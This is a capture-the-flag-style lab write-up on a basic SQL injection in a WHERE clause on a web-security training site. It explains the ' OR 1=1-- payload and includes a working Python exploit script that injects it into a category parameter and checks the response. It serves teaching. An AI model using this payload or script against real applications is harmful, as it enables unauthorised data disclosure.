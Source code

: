 ```yaml
---
title: '1 SQLi Lab'
description: 'Exploiting a basic SQL injection vulnerability to retrieve hidden data.'
---
```



## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

<div style="text-align: justify;">
  In this lab, I explored how a simple SQL injection (SQLi) vulnerability in the `WHERE` clause of an SQL query can lead to information disclosure. By injecting a classic `' OR 1=1--` payload into a URL parameter, I was able to bypass category filters and extract all records from the database. Despite its simplicity, this technique is highly effective when user inputs are not properly sanitized.

  This exercise reinforced how even the most basic SQLi attack vectors can severely undermine application logic, especially in web apps that rely on direct input embedding into database queries. It’s a reminder that developers must use parameterized queries or ORM-based access to prevent such issues.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The app filters products based on the `category` parameter in the URL.
- This value is directly embedded into the SQL `WHERE` clause.
- No sanitization or parameterization is performed.
- The injected payload `' OR 1=1--` forces the condition to always evaluate true.
- The server responds with **all** products in the database.
- The script confirms success by searching for a known product name in the response.

<Aside>
  You may need to update the product name `"Folding Gadgets"` in the script, depending on the lab instance.
</Aside>

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    if "Folding Gadgets" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'+OR+1=1--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")
```


<Comment />
